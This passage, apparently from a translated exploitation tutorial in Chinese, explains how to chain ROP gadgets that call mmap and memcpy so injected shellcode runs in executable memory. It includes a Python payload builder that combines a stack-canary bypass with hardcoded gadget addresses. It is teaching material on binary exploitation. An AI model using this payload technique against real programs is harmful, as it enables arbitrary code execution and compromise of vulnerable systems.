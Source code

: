 1. 必须将该地址mmap设置为返回地址，以便在设置所有参数后执行系统调用。  
  
下一步是将我们的恶意代码复制到使用mmap该memcpy函数分配的内存中。该memcpy函数声明如下：  
  

```
void *memcpy(void dest[restrict .n], constvoid src[restrict .n], size_t n);
```

  
  
它需要三个参数：  
1. dest：要复制到的目标内存地址。  
  
1. src：复制的源内存地址。  
  
1. n：要复制的字节数。  
  
为此，我们必须完成我们的 ROP 链，如下所示：  
1. rdi 寄存器需要设置为mmaprax 寄存器返回的映射内存地址。遗憾的是，我找不到合适的工具，比如mov rdi, rax; ret或push rax; pop rdi; ret，将 rax 的值移动到 rdi ，不过谢天谢地，我找到了一个可以交换 rax 和 rdi 的值的工具xchg rdi, rax; cld; ret;。  
  
1. rsi 寄存器需要设置为堆栈中的 shellcode 地址，因此小工具pop rsi; ret总是可以发挥作用。  
  
1. rdx 需要设置为 shellcode 大小，和之前一样，我们将使用pop rdx; ret。  
  
1. 必须将该地址memcpy设置为返回地址以便执行。  
  
现在一切就绪，我们只需跳转到可执行内存中，运行我们的shellcode即可。此时，rdi寄存器保存的是可执行内存地址（shellcode），因此我们需要一个类似jmp rdi或call rdi（shellcode会终止进程，因此我们无需关心是否丢失流控制）的小工具。但我找到了一个替代的小工具，即push rdi; adc al, 0x48; lea eax, [rdi + 0x15]; ret;，该小工具将可执行shellcode地址压入堆栈，将进位标志+0x48添加到al，然后将rdi值+0x15加载到eax（有效且方便）。一旦该小工具返回，下一个返回地址将是shellcode，这是根据push指令执行的。  
  

```
def hijack_exec(p: Popen, canary):
    shellcode = 0x7fffffffddb0  + 0x40                    # Shellcode Address

    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x112                               # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd8205 ) # pop rdi; ret
    payload += b&#34;\x00&#34; * 0x8                              # addr = NULL
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd9b39 ) # pop rsi; ret
    payload += struct.pack( &#34;<Q&#34;, 0x1000 ) # Page size 
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7ebb37d ) # pop rdx; ret
    payload += struct.pack( &#34;<Q&#34;, 0x01 | 0x02 | 0x04 ) # Protections: PROT_EXEC=0x01, PROT_WRITE=0x02, PROT_READ=0x04 
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7ded94c ) # pop rcx; add eax, 0x1734ba; ret;
    payload += struct.pack( &#34;<Q&#34;, 0x01 | 0x20 ) # flags: MAP_SHARED=0x01 MAP_ANONYMOUS=0x20
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7fd9efb ) # pop r8; ret
    payload += b&#34;\xff&#34; * 0x8                              # fd = -1
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7eba9a0 ) # mmap( NULL, 0x1000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1, 0 )
    
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7f288a1 ) # xchg rdi, rax; cld; ret;
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd9b39 ) # pop rsi; ret
    payload += struct.pack( &#34;<Q&#34;, shellcode ) # Shellcode address
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7ebb37d ) # pop rdx; ret
    payload += struct.pack( &#34;<Q&#34;, len(buf) + 0x40 ) # Shellcode size for memcpy
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7feb6e0 ) # memcpy( exec_mem, shellcode, shellsize )

    # Execute the shellcode
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7e5ce42 ) # push rdi; adc al, 0x48; lea eax, [rdi + 0x15]; ret;
    
    payload += b&#34;\x90&#34; * 0x40                             # NOPs for padding
    payload += buf # Shellcode

```